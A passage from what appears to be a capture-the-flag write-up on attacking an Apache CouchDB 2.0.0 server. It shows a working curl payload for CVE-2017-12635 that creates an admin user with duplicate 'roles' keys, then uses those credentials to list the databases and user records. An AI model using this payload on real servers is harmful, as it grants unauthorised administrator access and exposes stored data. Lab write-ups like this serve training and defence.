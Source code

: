 Now, I know the Apache CouchDB is in version 2.0.0.
Bad luck for them!
This version is vulnerable and impacted by some critical issues.

- Some public vulnerabilities: https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-19046/version_id-230263/Apache-Couchdb-2.0.0.html
- The public exploit I will use: https://www.exploit-db.com/exploits/44498/ Apache CouchDB JSON Remote Privilege Escalation Vulnerability (CVE-2017-12635)

This exploit script will exploit the JSON API to create an admin user.
As it is fairly easy, I will do it manually instead.

```
$ curl -X PUT -H 'Content-Type: application/json' -d '{"type": "user", "name": "cyfun", "roles": ["_admin"], "roles": [], "password": "nopass"}' http://localhost:5984/_users/org.couchdb.user:cyfun
cyfun
{"ok":true,"id":"org.couchdb.user:cyfun","rev":"1-e140e509077e57fd6bd5b5491b7c0e09"}
```

Now I have a CouchDB admin user `cyfun` with password `nopass`.

Apache CouchDB documentation is available [here](https://docs.couchdb.org/en/stable/) but you won't be able to read 2.0.0 documentation as it has been archived.
So you will have to download the PDF or HTML zip from [here](https://readthedocs.org/projects/couchdb/downloads/).

You also read the PDF directly with Firefox(thanks to PDF.js): https://buildmedia.readthedocs.org/media/pdf/couchdb/2.0.0/couchdb.pdf

On page 217, the endpoint `/_all_dbs` is described:

> Returns a list of all the databases in the CouchDB instance.

```
$ curl -X GET http://cyfun:nopass@127.0.0.1:5984/_all_dbs -H 'Content-Type: application/json'
'["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]'
```

We can see there is a database `_users` and a one named `password`.

On page 249, the endpoint `/db/_all_docs` is described:

> Apache CouchDB, Release 2.0.0{"_id": "FishStew","servings": 4,"subtitle": "Delicious with fresh bread","title": "Fish Stew"}Response:HTTP/1.1 202 AcceptedCache-Control: must-revalidateContent-Length: 28Content-Type: application/jsonDate: Tue, 13 Aug 2013 15:19:25 GMTLocation: http://localhost:5984/db/FishStewServer: CouchDB (Erlang/OTP){"id": "FishStew","ok":true}10.3.2/db/_all_docsGET /{db}/_all_docsReturns a JSON structure of all of the documents in a given database. The information is returned as a JSONstructure containing meta information about the return structure, including a list of all documents and basiccontents, consisting the ID, revision and key. The key is the from the document’s `_id`.

Let's see the database `_users` first:

```
$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/_users/_all_docs
{"total_rows":2,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-75efcce1f083316d622d389f3f9813f7"}},
{"id":"org.couchdb.user:cyfun","key":"org.couchdb.user:cyfun","value":{"rev":"1-e140e509077e57fd6bd5b5491b7c0e09"}}
]}
```
